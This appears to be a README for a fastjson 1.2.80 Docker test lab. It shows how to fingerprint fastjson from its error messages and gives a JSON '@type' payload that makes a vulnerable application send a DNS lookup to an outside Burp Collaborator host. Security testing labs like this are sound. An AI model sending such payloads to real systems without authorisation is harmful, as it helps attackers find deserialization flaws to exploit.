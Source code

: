 ##  FastJSON-1.2.80-test-lab
 
* Run application using docker

```
docker build --network=host --no-cache .
```

## How to know if the targert application is using **fastjson**?

- Send Invalid JSON data and application will return 400 response exposing fastjson use in error message.

```json
{"test":"nonexistent"
```
<img src="/screenshot/invalid-json-400-response.png">

## Exploit Payload

Use Following payload to receive DNS request from the vulnerable application.

```
{"test": {
"@type":"java.net.Inet4Address",
"val": "asdfasdfasdf.burpcollaborator.net"
}
```
<img src="/screenshot/ssrf-payload.png">

Credits:
https://github.com/vulhub/vulhub/tree/master/fastjson

